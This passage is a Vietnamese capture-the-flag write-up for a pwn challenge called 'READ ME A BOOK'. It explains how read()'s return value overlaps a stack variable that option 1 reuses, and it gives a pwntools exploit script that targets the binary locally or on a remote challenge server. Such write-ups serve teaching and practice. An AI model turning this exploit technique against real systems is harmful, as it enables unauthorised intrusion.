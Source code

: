```python
p.interactive()
```

# READ ME A BOOK

## Source

<details><summary> source </summary></details>

## Ý tưởng

- Bài này lỗi chồng chéo stack
- Lỗi ở đây khi debug dừng chỗ `read(0, buf, 0xFFFuLL);` của option2 thì ta thấy giá trị trả về của read() là số byte read() đọc được vào rax() (giả sử trường hợp này mình nhập vào 0x538 byte "a" + 1 endline)
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/4018952d-f7b2-400c-9382-a3025879e467)
- và câu lệnh asm tiếp theo là ` mov    DWORD PTR [rbp-0x34], eax` đưa số byte này vào `$rbp-0x34` mà ở option1 ta có `  int v1[11]; // [rsp+Ch] [rbp-34h] BYREF` cũng ở `rbp-0x34` đó là lỗi chồng chéo stack.

- Khi trở về hàm scanf trong option 1 ta thấy rsi của `v1[0]` đã là 1337, bây giờ chúng ta chỉ cần nhập chữ thì hàm scanf() sẽ không đọc được và không thay đổi 1337.

## Khai thác

- Đầu tiên ta chọn option 2 và gửi vào 0x539 byte, sau đó chọn option 1 và gửi vào chữ.

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('chall', checksec=False)

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''


                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('34.124.157.94', 12344)
else:
        p = process(exe.path)

GDB()
sla(b"Option: ", b"2")
sa(b": ", b"a" * 0x539)
sla(b"Option: ", b"1")
sla(b"> ", b"a")

```